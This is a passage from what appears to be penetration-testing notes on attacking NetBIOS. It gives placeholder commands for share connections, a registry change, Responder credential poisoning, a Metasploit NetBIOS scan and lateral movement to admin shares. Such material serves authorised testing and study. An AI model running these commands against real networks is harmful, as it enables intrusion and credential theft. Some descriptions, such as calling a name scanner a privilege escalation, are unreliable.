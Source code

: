 ### Persistence

#### Backdoor through NetBIOS Session

*   **Tool:** \[\[Metasploit]], \[\[Custom Scripts]]

    ```bash
    net use \\<target_ip>\IPC$ /USER:<user> <password>
    ```
* **Description:** Establish a persistent connection to a shared resource, allowing continuous access.

#### Registry Persistence

*   **Tool:** \[\[4. Tool Guides/Incomplete/PowerShell]]

    ```powershell
    reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\NetBT\Parameters" /v EnableLMHosts /t REG_DWORD /d 1 /f
    ```
* **Description:** Modify registry settings to ensure NetBIOS services start with the system, maintaining a foothold.

### Credential Harvesting

#### LLMNR/NBT-NS Poisoning

*   **Tool:** \[\[Responder Cheat Sheet]]

    ```bash
    sudo responder -I <interface>
    ```
* **Description:** Poison LLMNR/NBT-NS requests to intercept and capture NetBIOS credentials.

### Privilege Escalation

#### Exploitation of Trusted NetBIOS Names

*   **Tool:** \[\[Metasploit]], \[\[Custom Scripts]]

    ```bash
    msfconsole -x "use auxiliary/scanner/netbios/nbname; set RHOSTS <target_ip>; run"
    ```
* **Description:** Identify and exploit trusted NetBIOS names to escalate privileges within a network.

### Lateral Movement, Pivoting, and Tunnelling

#### Using NetBIOS Sessions for Lateral Movement

*   **Tool:** \[\[Net]]

    ```bash
    net use \\<target_ip>\C$ /user:<username> <password>
    ```
